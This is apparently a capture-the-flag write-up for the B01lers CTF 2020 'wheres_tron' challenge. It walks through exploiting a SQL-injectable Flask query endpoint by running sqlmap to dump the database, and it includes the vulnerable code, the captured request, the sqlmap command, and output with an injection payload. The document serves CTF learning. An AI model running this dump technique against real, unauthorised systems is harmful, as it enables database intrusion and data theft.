

## B01lers_CTF(wheres_tron)

_**Oct 3-4, 2020**_

<br>


<h3 id="Challenge Description">Challenge Description</h3>



> We've lost Tron on the grid, find him using this uplink!
> http://chal.ctf.b01lers.com:3004


<br>

<h3 id="Solution">Solution</h3>

Reaing The Flask app provided, we can see that the query() function is vulnerable to a direct sql injection.

```python
def query(query):
    db = MySQLdb.connect(host='localhost', user='selection_program', passwd='designation2-503', db='grid')
    cursor = db.cursor()
    try:
        cursor.execute(query + " LIMIT 20;")
        results = cursor.fetchall()
        cursor.close()
        db.close()
        return results
    except MySQLdb.ProgrammingError as e:
        print(e)
        return 1
    except MySQLdb.OperationalError as e:
        print(e)
        return 2
```


we extracted the query post request :
```
POST / HTTP/1.1
Host: chal.ctf.b01lers.com:3004
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Master Control Program 0000
Origin: http://chal.ctf.b01lers.com:3004
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://chal.ctf.b01lers.com:3004/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fr-FR;q=0.8,fr;q=0.7
Connection: close

query=test
```

My Approach was to pass it into **sqlmap** and dump the whole database.

```
m3dsec@local:~/06_Wheres_Tron_$ sqlmap -r sql.txt --dbms=MySQL --level=3 --risk=3 --dbs --dump
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.8#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:22:10 /2020-10-05/

[11:22:10] [INFO] parsing HTTP request from 'sql.txt'
...
...
sqlmap identified the following injection point(s) with a total of 57 HTTP(s) requests:
---
Parameter: query (POST)
    Type: inline query
    Title: Generic inline queries
    Payload: query=(SELECT CONCAT(CONCAT('qzjjq',(CASE WHEN (5698=5698) THEN '1' ELSE '0' END)),'qqzjq'))
---
back-end DBMS: MySQL >= 5.0.0
available databases [2]:
[*] grid
[*] information_schema
...
...
```

Once dumping finished, we can grab our flag from the data we retrived:

```
m3dsec@local:~/06_Wheres_Tron_$ cat ~/.sqlmap/output/chal.ctf.b01lers.com/dump/grid/*|grep -i flag
1980,Tron-JA-307020,running,flag{I_fight_for_the_users_and_yori}
```

and, We got the flag !!

<br>
<br>

best regards, [m3dsec](https://github.com/m3dsec)

--------------

[back to B01lers_CTF()](../../ctf/b01lers.md)

[back to main()](../../../index.md)

